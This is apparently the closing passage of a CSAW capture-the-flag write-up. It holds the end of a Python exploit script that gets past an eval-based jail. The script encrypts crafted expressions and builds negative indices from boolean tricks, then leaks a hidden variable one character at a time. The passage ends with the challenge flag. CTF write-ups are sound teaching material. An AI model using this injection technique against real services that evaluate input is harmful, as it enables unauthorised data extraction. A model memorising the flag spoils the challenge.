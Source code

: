 ```python
        r = n % 2
        parts = ["~('a'<'b')" for _ in range(q)]
        if r:
            parts.append("~('a'<'a')")
        return "+".join(parts)

    # ensure we can encrypt 'spiral' (all letters present)
    for ch in "spiral":
        if ch not in plain_to_cipher:
            target.failure(f"Missing mapping for letter {ch!r}. Aborting.")
            target.close()
            sys.exit(1)
    enc_spiral = encrypt_plaintext("spiral")
    target.info(f"Encrypted 'spiral' -> {enc_spiral!r}")

    # dump characters one-by-one using negative indices
    flag_chars = []
    MAX_CHARS = 80
    for i in range(1, MAX_CHARS + 1):
        idx_plain = neg_expr(i)
        expr_plain = f"spiral[{idx_plain}]"
        expr_cipher = encrypt_plaintext(expr_plain)
        resp = send_recv_str(expr_cipher)
        if not resp or resp == "no galaxy":
            target.info(f"Index -{i} out-of-range or eval error (resp={resp!r}), stop.")
            break
        ch = resp[0]
        target.info(f"got index -{i}: {repr(ch)}")
        flag_chars.append(ch)

    flag = "".join(reversed(flag_chars))
    target.success(f"Recovered flag (partial/full): {flag}")

    target.close()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`csawctf{g@l@xy_0bserv3r$}`]

